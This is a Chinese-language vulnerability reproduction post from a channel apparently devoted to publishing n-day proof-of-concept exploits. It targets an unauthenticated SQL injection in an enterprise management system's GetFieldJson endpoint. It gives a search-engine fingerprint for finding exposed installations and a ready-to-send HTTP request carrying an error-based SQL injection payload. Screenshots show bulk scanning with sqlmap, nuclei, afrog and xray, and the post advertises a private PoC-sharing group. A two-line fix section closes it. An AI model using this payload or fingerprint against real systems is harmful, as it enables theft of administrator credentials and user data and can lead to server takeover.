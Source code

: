 #  【漏洞复现】某蓝企业管理系统 GetFieldJson SQL注入漏洞   
Superhero  Nday Poc   2024-08-19 10:04  
  
**0x00 免责声明**  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号nday poc及作者不为此承担任何责任，一旦造成后果请自行承担！如文章有侵权烦请及时告知，我们会立即删除文章并致歉。谢谢！  
  
**0x01 产品简介**  
  
  
某蓝企业管理系统是一款为企业提供全面管理解决方案的软件系统，它能够帮助企业实现精细化管理，提高效率，降低成本。系统集成了多种管理功能，包括但不限于项目管理、财务管理、采购管理、销售管理以及报表分析等，旨在为企业提供一站式的管理解决方案。该系统以先进的管理思想为引导，结合企业实际业务流程，通过信息化手段提升企业管理水平。  
  
**0x02 漏洞概述**  
  
某蓝企业管理系统 GetFieldJson 接口处SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。  
  
  
**0x03 搜索引擎**  
```
body="/Home6/AdminPretty"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKMrmqagyRVcADJF4kexiagLZhNOCBLXwHj4UQlvjFyibwFicd83Y0sUqCb9rWMQdVzgX2ZHhdD0lDzw/640?wx_fmt=png&from=appmsg "")  
  
  
**0x04 漏洞复现**  
```
GET /BaseModule/ExcelImport/GetFieldJson?tableCode=%27%20AND%206935%20IN%20(SELECT%20(CHAR(113)%2BCHAR(122)%2BCHAR(112)%2BCHAR(106)%2BCHAR(113)%2B(SELECT%20(CASE%20WHEN%20(6935%3D6935)%20THEN%20@@VERSION%20ELSE%20CHAR(48)%20END))%2BCHAR(113)%2BCHAR(122)%2BCHAR(113)%2BCHAR(118)%2BCHAR(113)))%20AND%20%27qaq%27=%27qaq HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```  
  
查询数据库版本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKMrmqagyRVcADJF4kexiagLoJty5Ssq9IP29XrCMAnfOWRhOkrhAeLaGiafKicz6zhxoEXmSI2fTSeQ/640?wx_fmt=png&from=appmsg "")  
  
sqlmap验证****  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKMrmqagyRVcADJF4kexiagLq4zybTB9RzgpkibQQo430qgutKdENcmKUTaIX81iaqG1cdwHEic2Nu05A/640?wx_fmt=png&from=appmsg "")  
  
**0x05 工具批量**  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKMrmqagyRVcADJF4kexiagLPL0a7ZHRKWqQ7cYU2GQBPpiclUiblKQia8IcQB6QOhzdxh48uTRfNyYGg/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKMrmqagyRVcADJF4kexiagLWkt3umfeVvDBoibk9MOQ5YiaVdsd24FXoIUdGD1QghaGW6p2iaic7bKKNg/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKMrmqagyRVcADJF4kexiagLMNZosNcS8DpVeW8jXNu3baEZ81icp0kMsuAyOia1Q8VvB4de95z9tSVA/640?wx_fmt=png&from=appmsg "")  
  
POC脚本获取  
  
请使用VX扫一扫加入内部  
POC脚本分享圈子  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwI0X77l5WtnpfTexA6RwHXSbf1x3ZyT3bhcbWzRoFLyAgHkSMk9yGaZK5FDGcSCQp9ibPcicxHXIOcg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&retryload=2&tp=webp "")  
  
  
**0x06 修复建议**  
  
1、关闭互联网暴露  
面或接口设置访问权限  
  
2、升级至安全版本  
  
  
